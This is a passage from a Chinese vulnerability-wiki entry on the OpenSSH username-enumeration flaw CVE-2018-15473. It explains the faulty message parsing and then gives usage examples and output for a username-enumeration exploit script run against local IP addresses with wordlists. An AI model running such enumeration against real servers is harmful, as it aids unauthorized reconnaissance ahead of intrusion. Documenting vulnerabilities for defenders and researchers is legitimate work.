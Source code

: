 当函数userauth\_pubkey解析了恶意消息之后，首先会读取布尔值域，由于这个域其实是不存在的，因此读取的会是下一个域（函数packet\_get\_char）：加密算法字符串的4字节长度值。然后调用下一个函数packet\_get\_string来读取加密算法字符串。

下面是解析合法消息的过程：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId40.png)

下面是解析恶意消息的过程：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId41.png)

结果就是，代码解析了一个1907字节的字符串（十六进制为0×00000773），这比整个消息的长度还要长，这会导致ssh\_packet\_get\_string调用fatal函数，并中断OpenSSH进程。

### poc补充

> 不知道为什么上面那个poc运行就报错了。这里找了一个能用的poc

Examples
--------

> A single username

    (cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
    [+] epi found!

> Use a wordlist with 10 threads (the default is 4)

    (cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
    [+] avahi found!
    [+] avahi-autoipd found!
    [+] backup found!
    [+] daemon found!
    [+] bin found!
    ------8<------

> IPv6 Address on port 2222 and INCREASED VERBOSITY!

    (cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
    [-] 4Dgifts not found
    [-] demo not found
    [-] checkfs not found
    [-] anon not found
    [-] EZsetup not found
    [-] auditor not found
    [-] demos not found
    [-] OutOfBox not found
    [-] checkfsys not found
    [+] avahi found!
    [-] diag not found
    [-] ROOT not found
    [-] checksys not found
    [-] cmwlogin not found
    [+] avahi-autoipd found!
    ------8<------
